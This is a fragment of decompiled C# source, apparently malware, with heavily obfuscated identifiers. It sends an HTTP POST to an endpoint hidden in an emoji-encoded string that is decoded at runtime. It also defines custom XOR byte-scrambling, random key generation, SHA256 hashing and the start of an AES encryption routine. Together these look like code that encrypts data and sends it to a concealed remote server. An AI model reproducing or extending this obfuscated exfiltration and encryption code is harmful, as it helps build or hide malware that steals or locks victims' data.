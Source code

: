 ```
        HttpResponseMessage httpResponseMessage = await JToIYNnsPTVBGdtYorgktWiMEPfUEkMGMChTBrH.PostAsync(cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("9️⃣\uD83C\uDE51\uD83D\uDDFF\uD83C\uDF7A\uD83D\uDCD3\uD83C\uDE51\uD83D\uDC36\uD83D\uDD3C\uD83D\uDC9C\uD83C\uDF46\uD83C\uDFA5✒️\uD83D\uDC60\uD83D\uDD28\uD83D\uDC9B\uD83D\uDEB4\uD83D\uDC36\uD83D\uDD28\uD83C\uDE01\uD83C\uDE3A\uD83D\uDC9C\uD83C\uDFA9\uD83D\uDC9B\uD83C\uDF7A\uD83C\uDF8F\uD83D\uDCAC\uD83C\uDE3A✒️\uD83D\uDC36\uD83C\uDFA9\uD83C\uDF63\uD83D\uDD3C\uD83C\uDF8F\uD83C\uDFAD\uD83C\uDF75\uD83C\uDF67\uD83D\uDC36\uD83C\uDF46\uD83C\uDFA5\uD83D\uDD0C"), (HttpContent) YIYcePSZHvUeSMhUzZwoVHmOV);
      }
      finally
      {
        JToIYNnsPTVBGdtYorgktWiMEPfUEkMGMChTBrH?.Dispose();
      }
    }
    JToIYNnsPTVBGdtYorgktWiMEPfUEkMGMChTBrH = (HttpClient) null;
  }

  private static byte gbTxSBXvOnHlWXYrw(byte b, int rounds)
  {
    for (int index = 0; index < rounds; ++index)
      b = (byte) (((int) b ^ 165) + 37 & (int) byte.MaxValue);
    return b;
  }

  private static byte[] TxWVCaCGswNFFkFNyyuGYebzTnmKMI(byte[] plaintext, byte[] key, int rounds = 3)
  {
    byte[] numArray = new byte[plaintext.Length];
    int length = key.Length;
    for (int index = 0; index < plaintext.Length; ++index)
    {
      byte num = cTIvrRALJgAKjCWOQufOPTJJhWwTDtRCwkk.gbTxSBXvOnHlWXYrw(key[index % length], rounds);
      numArray[index] = (byte) ((uint) plaintext[index] ^ (uint) num);
    }
    return numArray;
  }

  private static int[] OVixtxAlZgODrcwOVgagxeWAk()
  {
    int[] numArray1 = new int[256 /*0x0100*/];
    using (RNGCryptoServiceProvider cryptoServiceProvider = new RNGCryptoServiceProvider())
    {
      byte[] numArray2 = new byte[1024 /*0x0400*/];
      ((RandomNumberGenerator) cryptoServiceProvider).GetBytes(numArray2);
      Buffer.BlockCopy((Array) numArray2, 0, (Array) numArray1, 0, numArray2.Length);
      return numArray1;
    }
  }

  private static byte[] qUipnfARjQBaBGtORUDuGAblGcanrkCStJ(string input)
  {
    using (SHA256 shA256 = SHA256.Create())
      return ((HashAlgorithm) shA256).ComputeHash(Encoding.UTF8.GetBytes(input));
  }

  private static byte[] lSJNJosACuzaDIkQoaEIkvSckaEPgrBKmY(
    byte[] data,
    out byte[] key,
    out byte[] iv)
  {
    using (Aes aes = Aes.Create())
    {
      ((SymmetricAlgorithm) aes).Mode = (CipherMode) 1;
```